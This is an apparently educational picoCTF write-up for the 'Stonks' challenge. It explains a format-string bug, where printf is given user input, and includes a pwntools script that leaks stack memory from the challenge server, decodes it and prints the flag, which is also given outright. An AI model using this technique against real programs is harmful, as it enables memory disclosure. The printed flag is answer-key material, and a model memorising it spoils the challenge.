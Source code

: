 # Stonks
## Problem
> I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c)  
`nc mercury.picoctf.net 53437`  

[link](https://play.picoctf.org/practice/challenge/105)
### Source
[vuln.c](./vuln.c)
## Solution
1. Find the exploit in source code
    ```c
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);
    ```
    we can use format string give to the `printf`, like `%p`, `%x`
2. interact with the server
    ```console
    Welcome back to the trading app!

    What would you like to do?
    1) Buy some stonks!
    2) View my portfolio
    1
    Using patented AI algorithms to buy stonks
    Stonks chosen
    What is your API token?
    %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    Buying stonks with token:
    0x840c3f00x804b0000x80489c30xf7f37d800xffffffff0x10x840a1600xf7f451100xf7f37dc7(nil)0x840b1800x70x840c3d00x840c3f00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffd8007d0xf7f72af80xf7f454400x8ddaf4000x1(nil)0xf7dd4ce90xf7f460c00xf7f375c00xf7f370000xffd8d598
    Portfolio as of Mon Sep  4 15:04:29 UTC 2023


    7 shares of EZGW
    1 shares of J
    66 shares of A
    5 shares of EB
    49 shares of JO
    554 shares of C
    760 shares of MMD
    2 shares of ENW
    Goodbye!
    ```
    we can see the output from `%p`
    ```console
    0x840c3f00x804b0000x80489c30xf7f37d800xffffffff0x10x840a1600xf7f451100xf7f37dc7(nil)0x840b1800x70x840c3d00x840c3f00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffd8007d0xf7f72af80xf7f454400x8ddaf4000x1(nil)0xf7dd4ce90xf7f460c00xf7f375c00xf7f370000xffd8d598
    ```
    start with '0x' might be a hex number, so we can use python to convert it to ascii
3. write a python script to get the flag
    ```python
    r = remote("mercury.picoctf.net", 53437)

    r.recvlines(5)
    r.sendline(b"1")
    r.recvlines(3)
    r.sendline(b"%p" * 25)
    r.recvline()
    raw_data = r.recvline()
    print(raw_data)
    flag = ""
    for s in raw_data.split(b"0x"):
        if s == b"":
            continue
        temp = ""
        for i in range(0, len(s), 2):
            try:
                temp += chr(int(s[i:i+2], 16))
            except:
                pass
        flag += temp[::-1]
    print(flag)
    r.recvall()
4. run the script we can find the flag.
## flag
`picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}`